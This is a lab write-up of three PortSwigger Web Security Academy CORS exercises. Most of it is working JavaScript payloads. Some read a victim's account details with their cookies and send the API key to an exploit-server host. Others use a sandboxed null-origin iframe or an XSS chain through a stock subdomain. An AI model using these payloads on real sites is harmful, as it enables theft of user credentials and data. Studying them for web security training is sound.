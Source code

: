 # CORS

- https://portswigger.net/web-security/cors
- https://portswigger.net/web-security/cors/same-origin-policy
- https://portswigger.net/web-security/cors/access-control-allow-origin

## CORS vulnerability with basic origin reflection

When `Origin` header is added, it is being reflected to `ACAO` header either way. Accessing the response is acceptable. Only thing is to specify including credentials (cookies).

Deliver to victim:

```
<script>
const tmp = async () => {
    var r = await fetch("https://0a5300a704e0f23c82a3470c004d003f.web-security-academy.net/accountDetails", {credentials: "include"}); 
    var j = await r.json(); 
    fetch("https://exploit-0a6b001f047ff2d5823d469b01b8001c.exploit-server.net/exploit?q=" + j.apikey)
}
tmp()
</script>
```

Above request add `Origin` header automatically, which is reflected into `ACAO` header.

From what I assume, if there is no `Access-Control-Allow-Origin` in the response, results of it could not be access from the js. So here making request with `mode: "no-cors"`, makes it not append `Origin` header, which prevent it from being reflected into `ACAO`, which stops js execution

Solution via portwigger:

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

## CORS vulnerability with trusted null origin

Playing around with `GET /accountDetails` request:
 - Not specifing the `Origin` header, respond without `ACAO` header
 - Specifing `https://0ab900a703040b268435609a00610045.web-security-academy.net` as `Origin` reflects it in `ACAO`
 - Specifing `Test` as `Origin` respond without `ACAO` header
 - Specifing `null` as `Origin` reflects it in `ACAO`

So triggering the request with `Origin: null` will allow us to access the data.

Including our script in this `iframe` will cause the origin to be `null`. Deliver this to the victim:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
const tmp = async () => {
    var r = await fetch('https://0ab900a703040b268435609a00610045.web-security-academy.net/accountDetails', {credentials: 'include'})
    var j = await r.json()
    fetch('https://exploit-0a650065038d0bee84425f1301cb00c5.exploit-server.net/exploit?q=' + j.apikey)
}
tmp()
</script>"></iframe>
```

Alternative Portswigger solution:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

## CORS vulnerability with trusted insecure protocols

Check stock functionality works in `stock` subdomain. `GET /` request accept two parameters and of them is being reflected into the page without encoding, making it vulnerable to XSS. POC:

```
https://stock.0aca0019034db25a82e62aed000c00f6.web-security-academy.net/?productId=<script>alert(1)</script>&storeId=1
```

Checking `GET /accountDetails` at main domain: providing `Origin` header set to `https://stock.0aca0019034db25a82e62aed000c00f6.web-security-academy.net` respond with reflected `ACAO` header. Other values does not get reflected.

Additionally the servers responds with `AC-With-Credentials: true`, so it makes the attack possible, because the cookies with be sent with the requests.

Script that gets the cookie and sends it to the Explot Server at stock subdomain when passed as `productId`:

```
<script>
const tmp = async () => {
    var r = await fetch("https://0aca0019034db25a82e62aed000c00f6.web-security-academy.net/accountDetails", {credentials: "include"});
    var j = await r.json();
    document.location = ("https://exploit-0a27009303c9b21f82892917011a009d.exploit-server.net/log?q=" + j.apikey);
};
tmp();
</script>
```

Deliver to victim and read the apikey from the Explot Server Access logs:

```
<script>
document.location = 'https://stock.0aca0019034db25a82e62aed000c00f6.web-security-academy.net/?productId=3%3Cscript%3E%20const%20tmp%20=%20async%20()%20=%3E%20{%20var%20r%20=%20await%20fetch(%22https://0aca0019034db25a82e62aed000c00f6.web-security-academy.net/accountDetails%22,%20{credentials:%20%22include%22});%20var%20j%20=%20await%20r.json();%20document.location%20=%20(%22https://exploit-0a27009303c9b21f82892917011a009d.exploit-server.net/log?q=%22%20%2b%20j.apikey);%20};%20tmp();%20%3C/script%3E&storeId=1'
</script>
```

For some reason my solution do not work. Tests in my browser were successfull, but delivering the explot to the victim did not work. Doing it like solution suggested:

```
<script>
    document.location="http://stock.0aca0019034db25a82e62aed000c00f6.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0aca0019034db25a82e62aed000c00f6.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a27009303c9b21f82892917011a009d.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

(Update: comparing the solutions, the schema was different: `https` instead of `http`, but because the lab was already solved I had problems testing whether this will fix this - the victim did no longer react to sending him links)
